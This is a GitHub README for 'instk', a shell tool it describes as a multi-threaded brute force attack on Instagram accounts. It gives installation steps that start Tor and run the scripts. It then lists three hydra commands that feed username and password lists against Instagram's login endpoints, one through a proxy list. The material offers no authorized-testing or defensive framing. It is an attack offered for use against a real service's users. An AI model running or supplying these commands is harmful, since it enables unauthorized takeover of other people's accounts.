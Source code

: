 # instk

Instk is an Shell Script to perform multi-threaded brute force attack against Instagram


# Installation

git clone https://github.com/Khalidhusain786/instk.git

cd instk

chmod +x instkshell.sh

chmod +x install.sh

service tor start

./install.sh

bash instkshell.sh


# SCREENSHOT 

![CAPTURE 1](https://github.com/Khalidhusain786/instk/blob/main/khalid.jpg)



# HYDRA throw

hydra -l usernames.txt -P passwords.txt www.instagram.com http-post-form "/login/?next=/": "_username=^USER^&_password=^PASS^:F=incorrect" -V


hydra -L usernames.txt -P passwords.txt -x <proxy_list.txt> www.instagram.com http-post-form "/accounts/login/ajax/": "_username=^USER^&_password=^PASS^:F=incorrect" -V


hydra -L usernames.txt -P passwords.txt www.instagram.com http-post-form "/accounts/login/ajax/": "_username=^USER^&_password=^PASS^:F=incorrect" -V




